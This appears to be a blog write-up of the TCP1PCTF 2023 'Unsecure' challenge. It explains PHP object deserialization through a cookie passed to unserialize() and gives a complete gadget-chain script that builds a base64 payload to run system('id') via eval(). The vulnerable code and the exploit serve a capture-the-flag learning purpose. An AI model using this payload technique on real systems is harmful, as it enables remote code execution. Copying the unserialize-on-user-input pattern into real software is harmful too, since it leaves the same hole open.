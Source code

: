 +++
title = "[TCP1PCTF 2023] Unsecure"
description = "TCP1PCTF was organized by Indonesian and it was opened to anyone. The challenge is solely focus on exploiting deserialization vulnerability and how to chain the gadget to get code execution."
date = 2023-10-17T22:31:44+08:00
draft = false
tags = [ "ctf", "deserialization" ]
+++

For this challenge, we were provided with source code (dockerize). You also can download it [here][dockerimage].

## Overview

> 🚧 **Description** : Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

Based on the source code, the challenge is pretty straight forward. On index.php file, it took user input from cookie and passed it to `unserialize()` function. 

```php
// index.php
<?php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);
    unserialize($cookie);
}

echo "Welcome to my web app!";
```

Since the application blindly passed user input to `unserilize()` function, this will lead to deserialize vulnerability. Once we identify the source, now lets find the sink for gadget chain. Based on file provided, there were three additional files which are `GadgetOne/Adders.php`, `GadgetTwo/Echoers.php` and `GadgetThree/Vuln.php`. Based on the file name, ***maybe*** `GadgetThree/Vuln.php` is the sink.

```php
// GadgetOne/Adders.php
<?php

namespace GadgetOne {
    class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;
        }
        function get_x()
        {
            return $this->x;
        }
    }
}
```
```php
// GadgetTwo/Echoers.php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
}
```
```php
// GadgetThree/Vuln.php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }
            eval($this->cmd);
        }
    }
}
```

On `GadgetThree/Vuln.php`, it has a magic method so called `__toString()` and after several if statement, it call `eval()` function. Unlike `__wakeup()` and `__construct()`, which always get executed if the object is created, the `__toString()` method is invoked only when the object is treated as a string. For example, it can decide what to display if the object is passed into an `echo()` or `print()` function. On `GadgetTwo/Echoers`, the class will echo *class* when it destructed. The class must have `get_x()` function from the object, and `get_x()` is exist on `GadgetOne/Adders.php`. Before that, we need to set property of `$klass` is accessable because it was private variable. This can be done using `ReflectionClass`.

Once get the grasp the idea, here is the flow:
- Create `GadgetThree\Vuln` object
- Create `GadgetOne\Adders` object and pass `GadgetThree\Vuln` object as a parameter
- Create `GadgetTwo\Echoers` and set `$klass` property to be acessible
- Set `$klass` to `GadgetOne\Adders`.

## Solution

```php
<?php

namespace GadgetOne {
    class Adders {
        private $x;
        function __construct($x) {
            $this->x = $x;
        } 
    }
}

namespace GadgetTwo {
    class Echoers {
        protected $klass;
    }
}

namespace GadgetThree {
    class Vuln {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = "system('id');";
    }
}

namespace {
    $GadgetThree = new GadgetThree\Vuln();
    $GadgetOne = new GadgetOne\Adders($GadgetThree);
    $GadgetTwo = new GadgetTwo\Echoers();
    $reflectionClass = new ReflectionClass($GadgetTwo);
    $reflectionProperty = $reflectionClass->getProperty("klass");
    $reflectionProperty->setAccessible(true);
    $reflectionProperty->setValue($GadgetTwo, $GadgetOne);

    $serialized = base64_encode(serialize($GadgetTwo));
    echo $serialized."\n";    
}
```

After generating the encoded payload, create cookie named `cookie` using devtools(or any plugin) and set it to our encoded value. You will see the command will be executed after the page refreshed.

{{< figure src="/img/posts/ctf_2023_tcp1pctf_unsecure/1.png" caption="Figure 1: Code execution via deserialize" width="100%" align="center" >}}

[dockerimage]:/img/posts/ctf_2023_tcp1pctf_unsecure/unSecure.zip